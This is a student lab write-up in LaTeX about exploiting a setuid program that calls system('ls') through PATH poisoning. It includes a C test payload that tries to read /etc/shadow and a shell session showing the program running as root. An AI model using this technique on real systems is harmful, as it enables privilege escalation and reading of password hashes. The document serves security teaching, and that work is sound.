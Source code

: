 \documentclass{article}
\begin{document}
\subsection{Task 6}
In our only "exploit" this lab session, we are asked to run a setuid program with
a flaw. The program in question calls \verb!system("ls")!. The problem occurs since
"ls" is a relative path, which lets the system determine which "ls" program to run.
We quickly write up a testing payload as follows:
\begin{lstlisting}[language=c]
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>

int main(){
  // Attempt priviledged read
  FILE *f = fopen("/etc/shadow", "r");
  // Check if errno is set
  if (errno == 13){
    printf("No root priviledges :'(\n");
  } else {
    printf("Running as root >:)\n");
  }
  return 0;
}
And run the following shell session:

\end{lstlisting}
\begin{verbatim}
[09/19/20]seed@VM:~/a2$ gcc -o t6 t6.c; gcc -o ls ls_evil.c
[09/19/20]seed@VM:~/a2$ sudo chown root t6; sudo chmod 4755 t6
[09/19/20]seed@VM:~/a2$ ./ls
No root priviledges
[09/19/20]seed@VM:~/a2$ which ls
/bin/ls
[09/19/20]seed@VM:~/a2$ ./t6
a.out           ls         t2.c       t2_sums  t3.c  t4_out         t5.c    t6
env_out         ls_evil.c  t2_child   t3       t4    t4_out_sorted  t5_out  t6.c
env_out_sorted  sums       t2_parent  t3_2     t4.c  t5             t5.sh
[09/19/20]seed@VM:~/a2$ export PATH=$PWD:$PATH
[09/19/20]seed@VM:~/a2$ which ls
/home/seed/a2/ls
[09/19/20]seed@VM:~/a2$ ./t6
Running as root >:)
[09/19/20]seed@VM:~/a2$
\end{verbatim}
It is seen that once we poison the PATH variable to point to our current working
directory the "ls" executable points to our evil ls instead of the correct ls. This
is also seen when executing the "which" command. It is also seen that once we
execute t6 with the poisoned path, we can run priviledged commands, such as reading
password hashes from "/etc/shadow"
\subsection{Conclusion}
Thus concludes our intro to the environment variables. We've seen how they are
manipulated and how they affect child processes and forks. We've read some dusty
old manual pages and finally used all that knowledge to perform an attack.
\end{document}
